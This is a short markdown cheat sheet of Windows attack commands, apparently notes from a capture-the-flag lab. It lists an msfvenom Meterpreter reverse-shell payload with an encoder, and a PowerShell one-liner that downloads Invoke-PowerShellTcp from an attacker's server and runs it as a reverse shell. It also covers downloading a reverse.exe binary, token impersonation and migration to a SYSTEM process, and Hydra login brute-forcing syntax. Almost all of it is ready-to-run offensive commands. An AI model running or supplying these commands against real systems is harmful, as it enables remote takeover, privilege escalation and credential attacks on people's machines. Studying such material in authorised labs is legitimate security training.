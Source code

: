 # Load and run powershell in meterpreter
```console
load powershell
powershell_shell
```

# To create a msfvenoms payload with meterpreter reverse shell
```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.146.199 LPORT=4444 -f exe -o alfred.exe
```

# To download from a python server using powershell
```console
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.146.199:9000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.146.199 -Port 4343
```
or
```console
powershell Invoke-WebRequest -Uri http://10.8.30.155:1337/reverse.exe -Outfile reverse.exe
```

# To see privilege information in windows
```console
whoami /priv
```

# To impersonate other tokens using meterpreter
```console
load incognito
list_tokens -g
```

# To become NT system
```console
impersonate_token "BUILTIN\Administrators"
then migrate to a SYSTEM process (usually services.exe)
migrate <PID of services.exe>          
```

# Hydra brute force post
The http-post-form method require three arguments splitted by ":"
1. "Account/login.aspx", which you get from the URL 
2. "\_\_VIEWSTATE...Log+in", which you get using Burpsuite. Observe that you need also to insert ^USER^ and ^PASS^
3. Login Failed. Which is the most common case, deviations will be given as output.
